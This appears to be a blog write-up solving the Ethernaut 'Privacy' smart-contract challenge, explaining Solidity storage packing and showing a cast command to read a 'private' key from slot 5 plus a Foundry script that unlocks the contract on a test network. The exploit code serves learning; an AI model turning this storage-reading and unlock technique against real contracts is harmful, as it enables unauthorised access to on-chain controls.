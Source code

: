 ```yaml
---
title: 'Privacy - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level12.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-19
lastmod: 2025-09-19
---
```


## Challenge Overview

This level involves a contract that attempts to protect sensitive data using private variables. However, all data stored on the blockchain is publicly accessible. The goal is to extract the key from storage and use it to unlock the contract.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
}
```

---

## Exploit Explanation

The vulnerability stems from the misconception that `private` variables are hidden on the blockchain. In reality, all contract storage is publicly readable. The `private` keyword only prevents other contracts from directly accessing these variables - it doesn't hide the data from blockchain explorers or direct storage access.

### Storage Layout Analysis

Understanding how variables are packed in storage:

- **Slot 0**: `bool public locked` (1 byte)
- **Slot 1**: `uint256 public ID` (32 bytes - occupies full slot)
- **Slot 2**: Packed variables:
  - `uint8 private flattening` (1 byte)
  - `uint8 private denomination` (1 byte) 
  - `uint16 private awkwardness` (2 bytes)
  - Total: 4 bytes (remaining 28 bytes unused)
- **Slot 3**: `bytes32[3] private data[0]` (32 bytes)
- **Slot 4**: `bytes32[3] private data[1]` (32 bytes)
- **Slot 5**: `bytes32[3] private data[2]` (32 bytes) ← **This contains our key**

The key to unlock the contract is stored in `data[2]` at storage slot 5.

---

## Exploit Steps

1. **Read storage slot 5** to get the `bytes32` key value:
   ```bash
   cast storage <YOUR_INSTANCE> 5 --rpc-url $SEPOLIA_URL
   ```
   Returns: `0xe6dd9b7773267803f7e98c2a32f85b912afa06b9b90a477db2ae663e098bb333`

2. **Convert to bytes16** by taking the first 16 bytes (truncating from 32 bytes to 16 bytes)

3. **Call unlock()** with the converted bytes16 value

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Privacy.sol";

contract PrivacySolution is Script {
    
    Privacy public privacyInstance = Privacy(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Extract the key from storage slot 5 and convert to bytes16
        bytes32 key = 0xe6dd9b7773267803f7e98c2a32f85b912afa06b9b90a477db2ae663e098bb333;
        privacyInstance.unlock(bytes16(key));
        
        // Verify the contract is unlocked
        console.log("Contract locked status:", privacyInstance.locked());
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/PrivacySolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```